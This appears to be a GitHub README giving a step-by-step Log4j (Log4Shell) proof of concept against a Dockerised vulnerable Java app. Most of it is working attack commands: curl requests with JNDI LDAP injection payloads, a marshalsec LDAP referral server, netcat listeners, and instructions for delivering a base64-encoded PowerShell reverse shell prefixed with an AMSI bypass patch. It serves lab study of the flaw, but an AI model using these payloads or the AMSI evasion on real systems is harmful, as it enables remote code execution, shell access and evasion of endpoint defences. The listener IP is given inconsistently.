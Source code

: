 # Log4j Vulnerability

## Sources

* [Java - Apache Log4j 2 Library](https://logging.apache.org/log4j/2.x/)
* [John Hammond Log4j Proof Of Concept Video](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1481s)
* [`leonjza` Github Repository - Log4j POC](https://github.com/leonjza/log4jpwn)
* [`xiajun325` Github Repository - Log4j POC](https://github.com/xiajun325/apache-log4j-rce-poc)
* [Github - Powershell Reverse Shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

## Java application

Creating vulnerable Java application on a Docker container :
```
git clone https://github.com/leonjza/log4jpwn
cd log4jpwn
sudo docker build -t log4jpwn .
sudo docker run --rm -p8080:8080 log4jpwn
```

Create `netcat` connection to see the result of the request :
```
nc -lnvp 3333
```

Send poisonned request to server :
```
curl -H 'User-Agent: ${jndi:ldap://172.28.33.254:3333/a}' localhost:8080
```

The vulnerable Java application connects to the `netcat` listener (`172.22.33.254:3333`).

## HTTP server

Compile `Log4j.java` file :
```
javac Log4j.java
```

Start a HTTP server with Python :
```
python3 -m http.server 8080
```

Create LDAP server (require Java 8) :
```
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:9999/#Log4j"
```

Send poisonned request to server :
```
curl -H 'User-Agent: ${jndi:ldap://172.22.33.254:1389/Log4j}' localhost:8080
```

## Reverse shell

Create `netcat` connection to receive the access to the reverse shell :
```
nc -lnvp 3333
```

Get [this](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) Powershell script and edit the IP address and the port to match with the target.

Then, go on [AMSI.fail](https://amsi.fail/) wbesite and copy a `Rasta-mouses Amsi-Scan-Buffer patch`. Encode the previous Rasta-mouses patch followed by the Powershell script into Base64 thanks to a [Powershell encoder](https://raikia.com/tool-powershell-encoder).

Adapt the code in `Log4j.java` file to run the corresponding command then compile :
```
javac Log4j.java
```

With the LDAP server running, start JNDI injection to the target to establish a reverse shell connection through `netcat`.